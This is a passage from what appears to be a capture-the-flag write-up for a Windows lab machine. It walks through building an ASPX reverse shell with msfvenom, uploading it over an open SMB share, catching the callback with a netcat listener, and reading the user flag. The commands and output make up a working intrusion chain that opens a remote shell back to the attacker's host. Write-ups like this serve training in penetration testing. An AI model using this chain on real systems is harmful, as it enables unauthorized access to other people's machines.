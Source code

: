 ```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.14.109.66 LPORT=4444 -f aspx -o rev.aspx
```

Uploaded the shell to the `nt4wrksv` share:

```bash
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀 ➜ ~ smbclient //10.10.134.54/nt4wrksv
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> put rev.aspx
putting file rev.aspx as \rev.aspx (13.1 kb/s) (average 13.1 kb/s)
smb: \>
```

Set up a listener on port 4444:

```bash
nc -nlvp 4444
```

Accessed the shell via the web server on port 49663:

```bash
http://10.10.134.54:49663/nt4wrksv/rev.aspx
```

Successfully gained access to the machine:

```bash
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀 ➜ ~ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.134.54] 49869
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

## User Flag
Located the user flag:

```bash
c:\Users\Bob\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Bob\Desktop

07/25/2020  02:04 PM    <DIR>          .
07/25/2020  02:04 PM    <DIR>          ..
07/25/2020  08:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  21,034,422,272 bytes free

c:\Users\Bob\Desktop>more user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```
